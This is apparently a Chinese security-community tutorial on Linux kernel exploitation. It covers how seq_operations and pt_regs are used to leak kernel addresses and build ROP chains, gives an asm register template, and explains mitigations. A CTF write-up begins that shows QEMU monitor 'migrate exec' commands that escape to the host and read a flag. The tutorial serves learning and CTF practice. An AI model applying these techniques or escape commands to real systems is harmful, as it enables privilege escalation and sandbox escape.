# 内核提权二-先知社区

> **来源**: https://xz.aliyun.com/news/17842  
> **文章ID**: 17842

---

## kernel pwn相关结构体

### seq\_operations结构体

1. **序列文件接口**（Sequence File Interface）是针对 procfs 默认操作函数每次只能读取一页数据从而难以处理较大 proc 文件的情况下出现的，其为内核编程提供了更为友好的接口。
2. seq\_file为了简化操作，在内核 `seq_file` 系列接口中为 file 结构体提供了 private data 成员 `seq_file` 结构体，该结构体定义于 `/include/linux/seq_file.h` 当中，如下：

```
struct seq_file {
    char *buf;
    size_t size;
    size_t from;
    size_t count;
    size_t pad_until;
    loff_t index;
    loff_t read_pos;
    struct mutex lock;
    const struct seq_operations *op;	// 动态分配
    int poll_event;
    const struct file *file;
    void *private;
};
```

其中的**函数表成员 op** 在打开文件时通过 kmalloc 进行**动态分配**

1. **single\_open** ：为了更进一步简化内核接口的实现，seq\_file 接口提供了 single\_open() 这个简化的初始化 file 的函数，其定义于 `fs/seq_file.c` 中，如下：

```
int single_open(struct file *file, int (*show)(struct seq_file *, void *), void *data)
{
    struct seq_operations *op = kmalloc(sizeof(*op), GFP_KERNEL_ACCOUNT);	// 动态申请
    int res = -ENOMEM;

    if (op) {
        op->start = single_start;
        op->next = single_next;
        op->stop = single_stop;
        op->show = show;
        res = seq_open(file, op);	// 分配seq_file
        if (!res)
            ((struct seq_file *)file->private_data)->private = data;
        else
            kfree(op);
    }
    return res;
}
EXPORT_SYMBOL(single_open);

int seq_open(struct file *file, const struct seq_operations *op)
{
    struct seq_file *p;

    WARN_ON(file->private_data);

    p = kmem_cache_zalloc(seq_file_cache, GFP_KERNEL);		// 从seq_file_cache中直接分配
    if (!p)
        return -ENOMEM;

    file->private_data = p;

    mutex_init(&p->lock);
    p->op = op;
    p->file = file;
    file->f_mode &= ~FMODE_PWRITE;
    return 0;
}
```

其中我们可以看到的是在这里使用了 kmalloc 来分配 seq\_operations 所需空间，这使得我们有机可乘。但是我们很难直接操纵 seq\_file 结构体，这是因为其所需空间通过 `seq_open()` 中调用 kzalloc 从单独的 `seq_file_cache` 中分配。

1. **seq\_operations（kmalloc-32 | GFP\_KERNEL\_ACCOUNT）**：seq\_file 函数表：该结构体定义于 `/include/linux/seq_file.h` 当中，只定义了四个函数指针，如下：

```
struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};
```

分配、释放：前面我们得知通过 single\_open() 函数可以分配 **seq\_operations 结构体**，阅读内核源码，我们注意到存在如下调用链：

```
stat_open()        <--- stat_proc_ops.proc_open
    single_open_size()
        single_open()
```

注意到 stat\_open() 为 procfs 中的 stat 文件对应的 proc\_ops 函数表中 open 函数对应的默认函数指针，在内核源码 `fs/proc/stat.c` 中有如下定义：

```
static const struct proc_ops stat_proc_ops = {
    .proc_flags	= PROC_ENTRY_PERMANENT,
    .proc_open	= stat_open,	// 默认指针
    .proc_read_iter	= seq_read_iter,
    .proc_lseek	= seq_lseek,
    .proc_release	= single_release,	// 默认指针
};

static int __init proc_stat_init(void)
{
    proc_create("stat", 0, NULL, &stat_proc_ops);
    return 0;
}
fs_initcall(proc_stat_init);
```

即该文件对应的是 `/proc/id/stat` 文件，那么只要我们打开 `proc/self/stat` 文件便能**分配到新的 seq\_operations 结构体** 。对应地，在定义于 `fs/seq_file.c` 中的 `single_release()` 为 stat 文件的 proc\_ops 的默认 release 指针，其会释放掉对应的 seq\_operations 结构体，故我们只需要**关闭文件即可释放该结构体** 。申请：释放：

1. **泄漏 kernel .text地址** ：seq\_operations 结构体中有着四个内核指针，若是能够读出这些指针的值就能泄露出内核 .text 段的基址：
2. **劫持内核执行流**：当我们 **read 一个 stat 文件**时，内核会调用其 proc\_ops 的 `proc_read_iter` 指针，其默认值为 `seq_read_iter()` 函数，定义于 `fs/seq_file.c` 中，注意到有如下逻辑：

```
ssize_t seq_read_iter(struct kiocb *iocb, struct iov_iter *iter)
{
    struct seq_file *m = iocb->ki_filp->private_data;
    //...
    p = m->op->start(m, &m->index);	// 此时rdi的值为seq_file首地址 rsi值为rdi + 0x000028
    //...
}
```



### pt\_reg结构体

1. 用户态函数在进入内核态时会执行 类似syscall执行，首先会通过门结构进入到内核中的 `entry_SYSCALL_64`这一函数，随后通过系统调用表跳转到对应的函数。重点关注`entry_SYSCALL_64`这一函数：

```
SYM_CODE_START(entry_SYSCALL_64)
    UNWIND_HINT_EMPTY

    swapgs
    /* tss.sp2 is scratch space. */
    movq	%rsp, PER_CPU_VAR(cpu_tss_rw + TSS_sp2)
    SWITCH_TO_KERNEL_CR3 scratch_reg=%rsp
    movq	PER_CPU_VAR(cpu_current_top_of_stack), %rsp

SYM_INNER_LABEL(entry_SYSCALL_64_safe_stack, SYM_L_GLOBAL)

    /* Construct struct pt_regs on stack */
    pushq	$__USER_DS				/* pt_regs->ss */
    pushq	PER_CPU_VAR(cpu_tss_rw + TSS_sp2)	/* pt_regs->sp */
    pushq	%r11					/* pt_regs->flags syscall指令会将flags值给到r11寄存器*/
    pushq	$__USER_CS				/* pt_regs->cs */
    pushq	%rcx					/* pt_regs->ip syscall指令会将rip值给到rcx寄存器(系统调用不会使用rcx寄存器传参)*/
SYM_INNER_LABEL(entry_SYSCALL_64_after_hwframe, SYM_L_GLOBAL)
    pushq	%rax					/* pt_regs->orig_ax */

    PUSH_AND_CLEAR_REGS rax=$-ENOSYS	// 寄存器
```

`PUSH_AND_CLEAR_REGS rax=$-ENOSYS`，这是一条十分有趣的指令，它会将所有的寄存器**压入内核栈上，形成一个 pt\_regs 结构体**，该结构体实质上位于内核栈底：该结构体的[定义](https://elixir.bootlin.com/linux/latest/source/arch/x86/include/uapi/asm/ptrace.h#L44)如下：

```
struct pt_regs {
/*
 * C ABI says these regs are callee-preserved. They aren't saved on kernel entry
 * unless syscall needs a complete, fully filled "struct pt_regs".
 */
    unsigned long r15;
    unsigned long r14;
    unsigned long r13;
    unsigned long r12;
    unsigned long rbp;
    unsigned long rbx;
/* These regs are callee-clobbered. Always saved on kernel entry. */
    unsigned long r11;	// 就是上面pt_regs->flags的值
    unsigned long r10;
    unsigned long r9;
    unsigned long r8;
    unsigned long rax;
    unsigned long rcx;	// 就是上面的pt_regs->ip 即返回用户态时的地址
    unsigned long rdx;
    unsigned long rsi;
    unsigned long rdi;
/*
 * On syscall entry, this is syscall#. On CPU exception, this is error code.
 * On hw interrupt, it's IRQ number:
 */
    unsigned long orig_rax;
/* Return frame for iretq */
    unsigned long rip;
    unsigned long cs;
    unsigned long eflags;
    unsigned long rsp;
    unsigned long ss;
/* top of stack page */
};
```

1. **内核栈与通用rop**：我们都知道，内核栈**只有一个页面的大小**，而 pt\_regs 结构体则固定位于**内核栈栈底**，当我们劫持内核结构体中的某个函数指针时（例如 seq\_operations->start），在我们通过该函数指针劫持内核执行流时 **rsp 与 栈底的**`相对偏移`**通常是不变的** 而在系统调用当中过程有很多的寄存器其实是不一定能用上的，比如 r8 ~ r15，**这些寄存器为我们布置 ROP 链提供了可能，我们不难想到** ：

> 这是一个方便进行调试的板子

```
__asm__(
 "mov r15,   0xbeefdead;"
 "mov r14,   0x11111111;"
 "mov r13,   0x22222222;"
 "mov r12,   0x33333333;"
 "mov rbp,   0x44444444;"
 "mov rbx,   0x55555555;"
 "mov r11,   0x66666666;"
 "mov r10,   0x77777777;"
 "mov r9,    0x88888888;"
 "mov r8,    0x99999999;"
 "xor rax,   rax;"
 "mov rcx,   0xaaaaaaaa;"
 "mov rdx,   8;"
 "mov rsi,   rsp;"
 "mov rdi,   seq_fd;"        // 这里假定通过 seq_operations->stat 来触发
 "syscall"
);
```

* **只需要寻找到一条形如 “add rsp, val ; ret” 的 gadget 抬高栈 便能够完成 ROP**

1. 新版本内核对抗利用 pt\_regs 进行攻击的办法：但是，从内核**版本v5.13**开始，内核主线在 [这个 commit](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=eea2647e74cd7bd5d04861ce55fa502de165de14) 中为系统调用栈**添加了一个偏移值，这意味着 pt\_regs 与我们触发劫持内核执行流时的栈间偏移值不再是固定值**，这个保护的开启需要 `CONFIG_RANDOMIZE_KSTACK_OFFSET=y` （默认开启）

```
diff --git a/arch/x86/entry/common.c b/arch/x86/entry/common.c
index 4efd39aacb9f2..7b2542b13ebd9 100644
--- a/arch/x86/entry/common.c
+++ b/arch/x86/entry/common.c
@@ -38,6 +38,7 @@
 #ifdef CONFIG_X86_64
 __visible noinstr void do_syscall_64(unsigned long nr, struct pt_regs *regs)
 {
+	add_random_kstack_offset();
     nr = syscall_enter_from_user_mode(regs, nr);
 
     instrumentation_begin();
```

当然，若是在这个随机偏移值较小且我们仍有足够多的寄存器可用的情况下，仍然可以通过布置一些 slide gadget 来继续完成利用，不过稳定性也大幅下降了， `可以说这种利用方式基本上是废了`

### pt\_reg结构体和swapgs\_restore\_regs\_and\_return\_to\_usermode

1. swapgs\_restore\_regs\_and\_return\_to\_usermode利用pt\_reg结构体来返回用户态其中一条特殊的指令：

```
POP_REGS pop_rdi=0
```

包含寄存器rsi ~ r15 出栈：后续用rdi作为old\_rsp，而rsp则给一个新的栈位置用来存放iretq返回的结构体  
最后如果开启了kpti保护的话，程序会自动切换cr3结构体，然后再调用iretq返回。

> [!NOTE]
>
> 明眼人可以看出来，这里ida中显示的代码和调试器中显示的不一样？有一些位置的指令被换掉了。下面浅浅探究一下：
>
> 看一下**内核加载的时候**，是否访问过这片代码空间：
>
> 提前打上断点，并监听，再启动内核（内核版本 v5.11）：
>
> 
>
> 触发断点在这里，源码查看在 linux-5.11/arch/x86/lib/memcpy\_64.S目录下：
>
> 将原本的 **0xEB 0x43 ==> 0x66 0x9**0 ，即 **jmp short loc\_FFFFFFFF81E01029 ==> xchg ax,ax(空指令)**。将跳转指令去掉了：
>
> 开始加载的时候，内核装在的这部分虚拟内存是有rwx权限的：
>
> 
>
> 这里是去一个地址上取出要替换的指令，然后patch放在了这里，修改了原来的jmp指令。
>
> 
>
> 上面的代码只是用来赋值的，我们需要向上追踪函数的调用者：
>
> 
>
> 查看这两个函数的定义，text\_poke\_early ==> 用来修补(patch)代码。`text_poke_early` 用于在内核启动早期（`__init` 阶段）或模块加载时（`__module`）**安全地修改内存中的代码段**。它通过直接写入目标地址的内存，完成代码的**动态修补**（如修复漏洞、热补丁等）。这个函数也只是用来替换代码的：
>
> 
>
> 继续向上apply\_alternatives函数 ，用于在运行时对指令进行优化或替换。它属于 Linux 内核的 **"alternatives" 机制**，主要用于根据当前 CPU 的特性动态调整指令序列。它的主要作用是提升性能、修复漏洞以及适应不同的硬件环境：

```
/*
 * Replace instructions with better alternatives for this CPU type. This runs
 * before SMP is initialized to avoid SMP problems with self modifying code.
 * This implies that asymmetric systems where APs have less capabilities than
 * the boot processor are not handled. Tough. Make sure you disable such
 * features by hand.
 *
 * Marked "noinline" to cause control flow change and thus insn cache
 * to refetch changed I$ lines.
 */
void __init_or_module noinline apply_alternatives(struct alt_instr *start,
                          struct alt_instr *end)
{
    struct alt_instr *a;
    u8 *instr, *replacement;
    u8 insn_buff[MAX_PATCH_LEN];

    DPRINTK("alt table %px, -> %px", start, end);
    /*
     * The scan order should be from start to end. A later scanned
     * alternative code can overwrite previously scanned alternative code.
     * Some kernel functions (e.g. memcpy, memset, etc) use this order to
     * patch code.
     *
     * So be careful if you want to change the scan order to any other
     * order.
     */
    for (a = start; a < end; a++) {
        // ......
        text_poke_early(instr, insn_buff, insn_buff_sz);
    }
}
```

> 所以当内核开启kpti时，内核启动后会自动修补这部分代码。修补的位置布置这一处，还有其他位置：
>
> 
>
> 在qemu启动时关闭 pti保护，此时内核就不会修补这段代码了。**在 -append中添加 nopit**。此时内核初始化不会修改jmp指令：
>
> 

## 例题：西湖论剑 2021-easykernel

> 非预期解：虚拟机逃逸：
>
> 启动脚本中没有 -monitor /dev/null ，即没有关闭monitor ，直接ctrl + A C就能逃逸，然后解压rootfs.img读取flag即可
>
> -monitor /dev/null 表示将QEMU的监控器（Monitor）接口重定向到空设备（/dev/null），**其作用是彻底禁用QEMU的交互式监控功能** 。
>
> QEMU的监控器（Monitor）是一个命令行界面，允许用户在虚拟机运行时执行高级操作。
>
> 
>
> 

```
migrate "exec:mkdir tmp;ls 1>&2"	# 创建目录
migrate "exec:cp rootfs.img ./tmp 1>&2"	# 复制镜像文件
migrate "exec:cd ./tmp;cpio -idv < ./rootfs.img;ls"	# 解包镜像文件
migrate "exec:cd ./tmp;cat flag 1>&2"	# 输出flag
```

1. 先查看启动脚本，和初始化脚本：

```
qemu-system-x86_64  \
-m 128M \
-cpu kvm64,+smep \
-kernel ./bzImage \
-initrd rootfs.img \
-nographic \
-s \
-append "console=ttyS0 kaslr quiet noapic"

```

开启了 smep执行保护、kaslr、kpti

1. 分析kvm模块test.ko：只有一个函数可以调用，kerpwn\_ioctl分析后可以传入一下数组：

```
struct tmp	// 用于操作堆
{
  int64_t index;
  int64_t buf_size;
  char *user_ptr;
};

struct tmp_heap	// 用于申请堆
{
  size_t obj_size;
  char *user_ptr;
};
```

